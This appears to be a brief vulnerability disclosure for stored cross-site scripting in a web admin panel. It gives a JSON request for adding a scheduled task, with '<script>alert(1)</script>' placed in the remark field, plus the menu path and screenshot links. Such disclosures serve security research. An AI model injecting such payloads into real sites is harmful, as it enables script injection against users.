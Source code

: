 ```
{"id":"","beanName":"testTask","params":"1","cronExpression":"0 */1 * * * ?","remark":"<script>alert(1)</script>"}
```

System Management -> Scheduled Tasks -> Add, note inject payload, \<script>alert(1)\</script>

![image-20250228220256798](assets/image-20250228220256798.png)

![image-20250228220440077](assets/image-20250228220440077.png)
